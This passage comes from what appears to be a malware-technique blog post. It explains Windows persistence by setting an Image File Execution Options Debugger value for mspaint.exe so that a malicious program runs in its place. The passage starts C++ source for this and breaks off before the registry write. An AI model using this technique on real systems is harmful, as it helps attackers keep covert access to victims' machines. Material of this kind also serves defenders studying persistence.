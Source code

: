 ![pers](/assets/images/68/2022-09-12_02-26.png){:class="img-responsive"}    

> `WerFault.exe` - used for tracking errors related to operating system, Windows features and applications.    

### IFEO debugger type

There are another implementation of IFEO via debugger key. Just create a debugger to a victim process in this registry key:    

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`     

then only requires the malicious application to be stored in `System32`.    

So source code is simple and looks like this:    

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe";

  // evil app
```